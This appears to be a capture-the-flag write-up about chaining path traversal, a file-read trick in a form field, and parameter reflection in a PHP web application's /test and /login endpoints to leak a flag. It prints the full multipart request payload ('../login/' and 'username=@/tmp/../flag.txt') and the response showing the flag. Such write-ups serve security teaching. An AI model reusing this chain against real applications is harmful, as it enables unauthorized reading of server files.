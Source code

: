 ## Understanding the Application Architecture

From the error message, we learned:
1. The application uses an `APICaller` class in `/var/www/html/modules/apicaller.php`
2. The `/test` endpoint can call other methods/endpoints
3. There's a private `$url` variable that we couldn't directly modify
4. Path traversal was possible in the `method` parameter

## The Breakthrough: Parameter Reflection

Since we couldn't exfiltrate the flag via HTTP requests due to the private `$url` variable restriction, we looked for ways to reflect the flag value in HTTP responses. We discovered that the `/login` endpoint reflects the username parameter in the HTML response.

## Final Exploitation

Our winning strategy involved chaining multiple vulnerabilities:

1. **Path Traversal**: Use `../login/` in the method parameter to access the login endpoint
2. **File Inclusion**: Use `@/tmp/../flag.txt` as the username value to read the flag file
3. **Parameter Reflection**: The login endpoint reflects the username in the response

**Finl Request Payload**:
```
------WebKitFormBoundaryr5p1zI5sws0O9r7B
Content-Disposition: form-data; name="userid"

admin
------WebKitFormBoundaryr5p1zI5sws0O9r7B
Content-Disposition: form-data; name="method"

../login/
------WebKitFormBoundaryr5p1zI5sws0O9r7B
Content-Disposition: form-data; name="parameters"

username=@/tmp/../flag.txt
------WebKitFormBoundaryr5p1zI5sws0O9r7B--
```

## Success!

The response revealed the flag reflected in the username field:

```html
<div class="mt-2">
    <input
        type="text"
        name="username"
        id="username"
        value="FLAG{ch41ning_bug$_1s_W0nd3rful!}"
        required
    />
</div>
```
